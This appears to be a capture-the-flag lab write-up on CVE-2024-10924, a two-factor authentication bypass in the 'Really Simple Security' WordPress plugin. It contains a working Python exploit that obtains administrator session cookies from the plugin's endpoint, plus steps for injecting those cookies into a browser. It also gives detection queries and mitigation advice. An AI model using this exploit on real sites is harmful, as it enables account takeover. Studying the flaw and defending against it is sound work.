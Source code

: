 # Bypass Really Simple Security

## Summary

In this room, we explored the CVE-2024-10924 vulnerability found in the "Really Simple Security" plugin for WordPress. This vulnerability allows an attacker to bypass two-factor authentication (2FA) and gain unauthorized access to user accounts, including those with administrative privileges.

## Techniques Used

- REST API manipulation.
- WordPress authentication bypass.
- Using cookies to access administrator accounts.

## Tools Used

- `Python` for automated exploitation.
- `requests` to make HTTP requests.
- `Burp Suite` for analyzing and modifying requests.
- `Firefox Developer Tools` for cookie injection.

## Commands Executed

```bash
# Example of exploitation using the Python script
python exploit.py 1
```

## Vulnerability Analysis

### How the Vulnerability Works

The issue lies in the improper validation of the `login_nonce` parameter, allowing an attacker to send a **POST** request to the following endpoint:

```
/reallysimplessl/v1/two_fa/skip_onboarding
```

The request parameters used are:

- **user\_id** = ID of the target user.
- **redirect\_to** = URL to redirect to after login.
- **login\_nonce** = Random value that is not properly validated.

This allows generating valid authentication cookies without needing credentials, resulting in a complete account takeover.

### Exploitation

To exploit this vulnerability, a **Python script** was used that:

1. Sends a **POST** request to the vulnerable endpoint with the mentioned parameters.
2. Extracts **session cookies** returned by the server.
3. Allows injecting these cookies into a browser to access `/wp-admin` as an administrator.

```python
import requests
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),
    "login_nonce": "invalid_nonce",
    "redirect_to": "/wp-admin/"
}

response = requests.post(url, json=data)

if response.status_code == 200:
    print("Request successful!\n")
    cookies = response.cookies.get_dict()
    for name, value in cookies.items():
        print(f"{name}: {value}")
else:
    print("Request failed! Status Code:", response.status_code)
```

### Cookie Injection

1. Copy the generated cookies.
2. Open the browser developer tools (`F12` > `Storage` > `Cookies`).
3. Manually add the cookies with the extracted values.
4. Navigate to `http://vulnerablewp.thm:8080/wp-admin` and access the admin panel.

## Detection and Mitigation

### 🔍 Detection Methods

To detect exploitation attempts of **CVE-2024-10924**, activity logs can be analyzed:

- **Check web logs** for suspicious requests to the endpoint:
  ```
  rest_route=/reallysimplessl/v1/two_fa/skip_onboarding
  ```
  with repeated or invalid parameters (`user_id`, `login_nonce`).
- **Analyze authentication logs**, looking for login attempts that bypass 2FA validation.
- **SIEM queries**, such as:
  ```sql
  method:POST AND path:"/reallysimplessl/v1/two_fa/skip_onboarding"
  ```
  to monitor possible attacks.

### 🛠 Mitigation Steps

To fix the vulnerability, the following improvements were implemented:

- **Strict validation of authentication parameters.**
- **Proper error handling** in `skip_onboarding` to prevent invalid authentication attempts.
- **Updating the plugin** to version **9.1.2 or later**, which patches this vulnerability.

## Screenshots or Evidence


## Conclusion and Learnings

- **CVE-2024-10924** highlights the importance of properly validating API requests.
- Exploiting **authentication flaws in WordPress** can lead to full system compromise.
- **Keeping plugins updated** and enabling **auto-updates** is essential.
- **Proactive monitoring** with SIEM tools is key to detecting attacks early.

